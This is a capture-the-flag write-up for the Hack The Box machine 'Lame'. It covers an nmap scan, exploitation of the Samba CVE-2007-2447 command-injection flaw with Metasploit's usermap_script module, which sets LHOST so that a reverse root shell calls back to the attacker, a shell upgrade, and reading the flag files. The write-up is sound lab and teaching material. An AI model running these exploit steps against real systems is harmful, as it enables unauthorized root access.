





# Lame - Hack The Box Writeup

## Overview

* Machine: Lame
* Difficulty: Easy
* Platform: Hack The Box
* IP: 10.129.4.244

---

## Reconnaissance

We start with an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV 10.129.4.244
```



Observation:

* FTP → vsftpd 2.3.4
* SSH → OpenSSH
* SMB → Samba 3.X - 4.x

The FTP service is known to be vulnerable, but exploitation failed.
Therefore, we moved to analyze SMB.

---

## Service Analysis (SMB)



Key Findings:

* Samba version: 3.0.20
* OS: Linux
* Vulnerable to: CVE-2007-2447

---

## Exploitation

### CVE-2007-2447

This vulnerability allows command injection via the `username map script`.

We use Metasploit:

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.129.4.244
set LHOST 10.10.16.76
run
```



Result:

* Reverse shell obtained
* Access level: root

---

## Shell Upgrade

```bash
script /dev/null -c bash
```

We now have a stable interactive shell.

---

## Flags

### User Flag

```bash
cat /home/makis/user.txt
```



---

### Root Flag

```bash
cat /root/root.txt
```



---

## Lessons Learned

* Always enumerate all services
* Failed exploit does not mean the system is secure
* SMB is a critical attack surface
* Understanding vulnerabilities is more important than running exploits

---

## Conclusion

By identifying a vulnerable Samba version, we achieved direct root access via a known RCE vulnerability.

---

## Tags

SMB, RCE, Metasploit, Linux, Easy
